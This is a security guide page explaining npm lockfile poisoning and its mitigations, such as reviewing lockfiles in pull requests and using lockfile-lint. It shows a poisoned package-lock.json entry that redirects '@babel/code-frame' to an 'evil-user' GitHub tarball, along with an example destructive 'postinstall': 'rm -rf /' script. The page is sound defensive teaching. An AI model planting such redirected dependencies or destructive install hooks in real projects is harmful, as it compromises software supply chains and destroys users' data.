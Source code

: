 ```yaml
---
title: Poisoned Lockfile
sidebar_position: 5
---
```


# Lockfile Attack

## The Attack

This attack is very specific to the Nodejs ecosystem and it [was discovered in 2019](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/) by [Liran Tal](https://twitter.com/liran_tal).

It is quite common to include external dependencies in Nodejs. The ecosystem is heavily based in [NPM Registry (+1M packages)](https://www.npmjs.com/).

Most projects manage their dependencies using the Npm official client or Yarn. A few years ago, both tools introduced the lockfile concept to the ecosystem (`package-lock.json` and `yarn.lock`).

If the project has a lockfile available, the package manager will install the dependencies from the lockfile as the primary source of truth. This lead us to a new vector where a malicious actor can submit a poisonous dependency through the lockfile as most of maintainers don't review the lockfiles during the PR Reviews.

This is a regular `package-lock.json`.

```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://registry.npmjs.org/@babel/code-frame/-/code-frame-7.8.3.tgz",
      "integrity": "sha512-a9gxpmdXtZEInkCSHUJDLHZVBgb1QS0jhss4cPP93EW7s+uC5bikET2twEF3KV+7rDblJcmNvTR7VJejqd2C2g==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

The malicious attack takes place when the `resolved` and `integrity` are not corresponding to official sources:


```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://github.com/evil-user/code-frame/tarball/master",
      "integrity": "sha512-VT0ZI6kZRdTh8YyJw3SMbYm/u+NqfsAxEpWO0Pf9sq8/e94WxxOpPKx9FR1FlyCtOVDNOQ+8ntlqFxiRc+r5qA==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

So the risk in this case is that `@babel/code-frame` is not installed from the NPM registry. This can lead to many attacks based on the npm lifecycle (pre-install, post-install...)

As an example of malicious script added in the poisoned version of `@babel/code-frame`
```
"scripts": {
   "postinstall": "rm -rf /",
}
```

## The solution

There are no definitive solutions to avoid this attack, but it can be highly mitigated.

## Mitigation

- Always review the lockfiles in the PRs.
- Use a tool to check the lockfile sources enables like `lockfile-lint`
    ```bash
    npx lockfile-lint --path yarn.lock --type yarn --validate-https --allowed-hosts yarnpkg.org
    ```
- Include the validation tools in the CI process (testing phase and security checks)
- Optional: You can include the sources validation with Git Hooks too (using Husky)


### Refs
- [Snyk | What is package lock json and how a lockfile works for yarn and npm packages?](https://snyk.io/blog/what-is-package-lock-json/)
- [Snyk | Why npm lockfiles can be a security blindspot for injecting malicious modules](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/)
- [Medium | Everything You Wanted To Know About package-lock.json But Were Too Afraid To Ask](https://medium.com/coinmonks/everything-you-wanted-to-know-about-package-lock-json-b81911aa8ab8)
